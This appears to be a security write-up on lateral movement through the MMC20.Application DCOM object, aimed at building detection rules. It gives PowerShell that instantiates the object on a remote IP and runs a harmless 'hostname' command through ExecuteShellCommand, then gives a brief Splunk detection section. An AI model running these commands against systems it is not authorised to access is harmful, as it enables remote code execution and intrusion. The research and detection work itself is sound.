


# MMC20 Application for Lateral Movement
### PoC and Detection

Hello everyone,

You have probably encountered situations where, while designing and creating a Detection Rule or Use Case to identify the MMC20 Application Object-based Lateral Movement technique, you needed to conduct research on this topic.

Recently, I explored the official Microsoft documentation as well as various publicly available Proof of Concepts (PoCs) to better understand what this object actually is and how it can be used.

In this article, we will walk through the topic step by step, covering:

- Background
- How MMC20 works
- PoC
- Detection
- Mitigation

---

## MITRE ATT&CK

- TA0008 – Lateral Movement
- T1021 – Remote Services

---

## Table of Contents

1. Introduction
2. MMC20 Object
3. Exploitation
4. PoC
5. Detection
6. Mitigation

---

## Introduction

The Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented architecture that enables software components to communicate and interact with one another. COM serves as the underlying technology for several Microsoft technologies, including OLE, ActiveX, and many other Windows-based applications and services.

Because COM objects can also be accessed remotely through the Distributed Component Object Model (DCOM), this functionality can be abused by attackers to perform lateral movement between systems within an enterprise environment.

To demonstrate this technique, the following lab environment was used throughout this research.

**Reference:**
https://docs.microsoft.com/en-us/windows/win32/com/the-component-object-model

The diagram below illustrates the relationship between the attacker and victim hosts used throughout this research.


---

## Execution

The `MMC20.Application` COM class is registered within the Windows Registry under the CLSID structure. This registry entry allows the component to be instantiated and leveraged for remote interaction via COM/DCOM mechanisms.

The relevant registry location is shown below:

```powershell
Registry Path:
HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}
```

The same information can also be retrieved using PowerShell:

```powershell
Get-ChildItem 'registry::HKEY_CLASSES_ROOT\WOW6432Node\CLSID\{49B2791A-B1AE-4C90-9B8E-E860BA07F889}'
```

The following screenshot demonstrates the registry enumeration using PowerShell:


---

### Establishing a DCOM Connection to the Victim Host

A remote COM object can be instantiated using the `MMC20.Application` ProgID, allowing interaction with a remote system via DCOM:

```powershell
$a = [System.Activator]::CreateInstance(
    [type]::GetTypeFromProgID("MMC20.Application.1", "192.168.254.132")
)
```

---

### Remote Command Execution via DCOM Object

Once the remote COM object is created, it is possible to execute commands on the target system by leveraging the `ExecuteShellCommand` method:

```powershell
$a.Document.ActiveView.ExecuteShellCommand(
    "cmd",
    $null,
    "/c hostname > c:\fromdcom.txt",
    "7"
)
```

This command executes `hostname` on the remote machine and writes the output to `C:\fromdcom.txt`.

---

### Execution Result

The following screenshot illustrates successful command execution on the victim system, where the hostname output has been written to the target file:



---

## Detection

Detection of MMC20-based lateral movement can be performed using Splunk and App-ES (Enterprise Security). This use case focuses on identifying suspicious DCOM-based remote object activation and unusual COM execution patterns across endpoints.

In the following section, we analyze the implemented detection use case within Splunk App-ES, highlighting how telemetry is correlated to identify potential lateral movement activity.

The screenshot below shows the configured detection logic and analysis dashboard within Splunk App-ES:


